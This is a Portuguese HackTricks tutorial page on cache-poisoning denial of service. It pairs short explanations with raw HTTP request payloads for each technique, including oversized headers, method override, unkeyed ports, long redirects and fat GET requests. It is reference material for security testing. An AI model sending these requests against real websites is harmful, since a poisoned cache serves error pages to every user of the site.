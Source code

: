 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Nesta página você pode encontrar diferentes variações para tentar fazer o **servidor web responder com erros** a solicitações que são **válidas para os servidores de cache**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Envie uma solicitação com um tamanho de cabeçalho maior do que o suportado pelo servidor web, mas menor do que o suportado pelo servidor de cache. O servidor web responderá com uma resposta 400 que pode ser armazenada em cache:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Valores inesperados**

Envie um cabeçalho que contenha alguns **caracteres meta prejudiciais** como `\n` e `\r`. Para que o ataque funcione, você deve contornar o cache primeiro.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Um cabeçalho mal configurado poderia ser apenas `\:` como um cabeçalho.

Isso também poderia funcionar se valores inesperados forem enviados, como um Content-Type: inesperado.
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Cabeçalho sem chave**

Alguns sites retornarão um código de status de erro se **verem alguns cabeçalhos específicos** na solicitação, como com o cabeçalho _X-Amz-Website-Location-Redirect: someThing_:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Se o servidor suportar a alteração do método HTTP com cabeçalhos como `X-HTTP-Method-Override`, `X-HTTP-Method` ou `X-Method-Override`. É possível solicitar uma página válida alterando o método para que o servidor não o suporte, assim uma resposta ruim é armazenada em cache:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Porta Não Chaveada**

Se a porta no cabeçalho Host for refletida na resposta e não estiver incluída na chave de cache, é possível redirecioná-la para uma porta não utilizada:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Como no exemplo a seguir, x não está sendo armazenado em cache, então um atacante poderia abusar do comportamento da resposta de redirecionamento para fazer o redirecionamento enviar uma URL tão grande que retorna um erro. Assim, pessoas tentando acessar a URL sem a chave x não armazenada em cache receberão a resposta de erro:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Normalização de maiúsculas no cabeçalho Host**

O cabeçalho Host deve ser insensível a maiúsculas, mas alguns sites esperam que esteja em minúsculas, retornando um erro se não estiver:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Normalização de caminho**

Algumas páginas retornarão códigos de erro enviando dados URLencode no caminho, no entanto, o servidor de cache fará URLdecode do caminho e armazenará a resposta para o caminho URLdecoded:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Alguns servidores de cache, como Cloudflare, ou servidores web, bloqueiam solicitações GET com um corpo, então isso pode ser explorado para armazenar em cache uma resposta inválida:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Referências

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

